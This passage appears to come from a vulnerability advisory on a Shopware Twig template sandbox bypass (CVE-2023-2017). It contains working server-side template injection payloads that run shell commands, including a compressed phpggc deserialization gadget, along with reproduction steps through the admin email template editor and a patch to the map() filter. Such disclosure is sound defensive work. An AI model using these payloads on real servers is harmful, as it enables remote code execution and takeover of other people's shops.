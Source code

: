 ```
{{ {'/':'id > /tmp/pwned.txt'} | map(['\\Symfony\\Component\\Process\\Process', 'fromShellCommandline']) | map(e => e.run()) | length }}
```

### Exploit Conditions:
This vulnerability can be exploited if the attacker has access to:
- an administrator account, or
- a non-administrative user account with permissions to create/edit Twig templates, such as:
1. Settings > Email templates permissions
2. Content > Themes permissions
3. Additional Permissions > Manage Extensions permissions

### Steps Reproduction:
For simplicity, the following proof-of-concept uses the administrator account to demonstrate how the vulnerability can be exploited using `Email templates`.
1. Navigate to http://<shopware_target>/admin#/sw/mail/template/index and login to an administrator account.
2. Click the ... button for the first template (e.g. Cancellation invoice), and click the Edit button.
3. Under the Mail text section, enter the following payload for the HTML text area:
```
<!--
Gadget 1: Using \Shopware\Core\Framework\Adapter\Cache\CacheValueCompressor::uncompress() to invoke unserialize()
Serialized payload generated using the phpggc tool: ./phpggc -b Monolog/RCE8 system 'id'
Compressed payload is generated using: 
$ php -r 'echo gzcompress(shell_exec("php phpggc Monolog/RCE8 system id"));' | hexdump -v -e '"\\\x" 1/1 "%02X"'
-->
{{ ["\x78\x9C\x65\x90\x4D\x4F\xC3\x30\x0C\x86\x77\xE6\x67\xF8\xC8\xA9\x49\x61\x30\xE7\x86\x86\xE0\x50\x34\x09\xAE\x93\xA6\x7E\x78\xC5\x53\xDA\x4C\x49\x3A\xF1\xA1\xFE\x77\x92\x06\x8D\xA2\xDD\xEC\xF7\x8D\x5F\x3F\xCE\x06\xE5\x3D\xC2\x8B\xE9\x8D\x36\xED\xF6\xB9\xEC\x1B\x4D\x76\xFB\x64\xCD\x70\xFC\x6D\x00\x05\x7E\x3B\x14\x02\x61\x71\xBD\x78\x4F\xA2\x03\x55\x46\x9D\x31\x53\x1B\x94\xAB\xCB\x88\x87\x61\xBF\x27\x7B\xCE\x58\x4E\x19\xD9\x3C\x03\x94\xC5\x5C\x05\x35\x9F\xD4\x6A\x1A\x78\xE3\x2F\x02\xC5\x28\xA2\x71\x33\x33\x0A\xEE\xD8\x47\x27\x0B\xCE\x6A\x66\xFC\x23\x11\x77\x7F\x24\x85\x69\x5F\xA9\x36\xB6\x01\x94\x71\xFB\x2D\x82\xA6\x13\x69\x50\x8F\x28\x66\xC4\x45\x14\x71\x4D\xD5\xD0\x82\x9A\x9E\x75\xFC\x41\x4D\xAC\x25\x02\x87\x62\x1C\xCF\x30\xDC\xB3\xE7\x52\x07\xCA\xA0\x57\x09\x33\xF1\x1F\xAD\xA9\xC9\x39\x93\xFE\x26\x4F\x44\xC1\x0D\x79\x2D\xF9\x9D\xA9\x0E\x54\xFB\xDD\xA9\x8C\x7E\xBA\x2F\xCC\x51\xDF\xC4\x4E\x86\x6E\x89\xE0\x3E\x9D\xA7\x2E\xEE\x1B\xC7\xAB\x1F\x89\x25\x7F\x63"] | map(['\\Shopware\\Core\\Framework\\Adapter\\Cache\\CacheValueCompressor', 'uncompress']) | length }}
```
4. In the right-sidebar, click the Show Preview button. Observe that the id shell command is executed successfully:
![img](https://starlabs.sg/advisories/23/images/CVE-2023-2017.png)

### Mitigations:
Patch the logic flaw in the `SecurityExtension` function declared in `src/Core/Framework/Adapter/Twig/SecurityExtension.php` to ensure that the parameter passed to the respective filter functions must either be a `string` or a `Closure` as such:
An sample patch is shown below for the map() filter:
```
    public function map(iterable $array, string|callable|\Closure $function): array
    {
-       if (\is_string($function) && !\in_array($function, $this->allowedPHPFunctions, true)) {
+       if (!($function instanceof \Closure) && (!(\is_string($function) && \in_array($function, $this->allowedPHPFunctions, true))) {
            throw new \RuntimeException(sprintf('Function "%s" is not allowed', $function));
        }

        $result = [];
        foreach ($array as $key => $value) {
            // @phpstan-ignore-next-line
```